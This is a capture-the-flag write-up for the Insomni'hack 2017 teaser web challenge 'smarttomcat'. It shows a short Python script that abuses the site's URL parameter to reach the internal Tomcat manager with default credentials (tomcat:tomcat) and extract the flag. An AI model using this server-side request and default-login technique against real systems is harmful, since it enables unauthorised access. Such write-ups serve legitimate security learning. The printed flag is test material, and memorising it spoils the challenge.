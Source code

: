 ```yaml
---
title: INST17 - smarttomcat (Web 50)
categories:
  - INST17
author_member: avarx
show_comments: false
---
```




>Normal, regular cats are so 2000 and late, I decided to buy this allegedly smart tomcat robot
Now the damn thing has attacked me and flew away. I can't even seem to track it down on the broken search interface... Can you help me ?

![website](/images/INST17/INST17_website.png "website")

We can submit coordinates to find the cat.
If we check the source code we can see that a **POST** is done to **index.php** with **localhost:8080** and a **jsp** file as **u-parameter**.

![source](/images/INST17/INST17_source.png "source")


Together with the task title we assume it's a **tomcat**.
Tomcat's got that [**manager**](https://tomcat.apache.org/tomcat-7.0-doc/manager-howto.html). Let's try **standard credentials**:


```
#!/usr/bin/env python

import requests
import re

TARGET_URL = 'http://smarttomcat.teaser.insomnihack.ch/'
TOMCAT_USER = 'tomcat'
TOMCAT_PASS = 'tomcat'
PAYLOAD = "http://"+TOMCAT_USER+":"+TOMCAT_PASS+"@localhost:8080/manager/html"

answer = requests.post(TARGET_URL, data={'u':PAYLOAD})
flag = re.findall(r"(INS\{...+\})", answer.text)

print(flag[0])
```
**INS{th1s_is_re4l_w0rld_pent3st}**

created by xel/grimmlin

